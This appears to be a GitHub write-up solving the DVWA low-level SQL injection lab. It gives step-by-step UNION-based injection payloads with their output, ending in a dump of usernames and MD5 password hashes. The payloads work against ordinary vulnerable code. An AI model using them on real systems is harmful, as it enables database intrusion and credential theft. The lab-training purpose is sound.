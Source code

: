 # SQL Injection Low

## <span style="color:red;">DONT OPEN My Solution IF YOU DON'T SOLVE IT</span>

<details>
<summary>My Solution</summary>


1. if You submit '

    you get 

    <code>
    Fatal error: Uncaught mysqli_sql_exception: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''''' at line 1 in C:\xampp\htdocs\1\vulnerabilities\sqli\source\low.php:11 Stack trace: #0 C:\xampp\htdocs\1\vulnerabilities\sqli\source\low.php(11): mysqli_query(Object(mysqli), 'SELECT first_na...') #1 C:\xampp\htdocs\1\vulnerabilities\sqli\index.php(34): require_once('C:\\xampp\\htdocs...') #2 {main} thrown in C:\xampp\htdocs\1\vulnerabilities\sqli\source\low.php on line 11</code>

<br>

2. then you can submit ' order by 3 -- 
 
    you get error message but if you submit ```' order by 2 --``` you dont have this and its mins you have 2 culumns
    
<br>

3. next you can submit ' union select 1,2 --

    you get this

    <code>
    ID: ' union select 1,2 -- 
    <br><br>
    First name: 1
    <br><br>
    Surname: 2
    </code>

<br>

4. then you can submit ' union select database(),version() -- 

    you get database name and version

    <code>
    ID: ' union select database(),version() -- 
    <br><br>
    First name: dvwa
    <br><br>
    Surname: 10.4.25-MariaDB
    </code>

<br>

5. then you can submit ' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() -- 

    you get table names

    <code>
    ID: ' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() --
    <br><br>
    First name: 1
    <br><br>
    Surname: guestbook,users
    </code>

<br>

6. next you can submit ' union select 1,group_concat(0x3c68723e,column_name) from information_schema.columns where table_name=0x7573657273 -- 

    0x3c68723e = hex for 'hr' tag

    0x7573657273 = hex for 'users'

    <br>
    you get column names
    <br><br>

    <code>
    ID: ' union select 1,group_concat(0x3c68723e,column_name) from information_schema.columns where table_name=0x7573657273 -- 
    <br>
    First name: 1
    <br>
    Surname: <hr>user_id,<hr>first_name,<hr>last_name,<hr>user,<hr>password,<hr>avatar,<hr>last_login,<hr>failed_login,<hr>id,<hr>Infractions,<hr>Description,<hr>USER,<hr>CURRENT_CONNECTIONS,<hr>TOTAL_CONNECTIONS,<hr>id,<hr>username,<hr>password
    </code>

<br>

7. next you can submit ' union select 1,group_concat(0x3c68723e,user,0x3a2d3e3a,password) from users -- 

    0x3c68723e = hex for 'hr' tag

    0x3a2d3e3a = hex for ':->:'

    <br>
    you get users and password column data with md5 password
    <br><br>

    <code>
    ID: ' union select 1,group_concat(0x3c68723e,user,0x3a2d3e3a,password) from users -- 
    <br>
    First name: 1
    <br>
    Surname: <hr>admin:-&gt;:5f4dcc3b5aa765d61d8327deb882cf99,<hr>gordonb:-&gt;:e99a18c428cb38d5f260853678922e03,<hr>1337:-&gt;:8d3533d75ae2c3966d7e0d4fcc69216b,<hr>pablo:-&gt;:0d107d09f5bbe40cade3de5c71e9e9b7,<hr>smithy:-&gt;:5f4dcc3b5aa765d61d8327deb882cf99
    </code>

    </details>

</details>        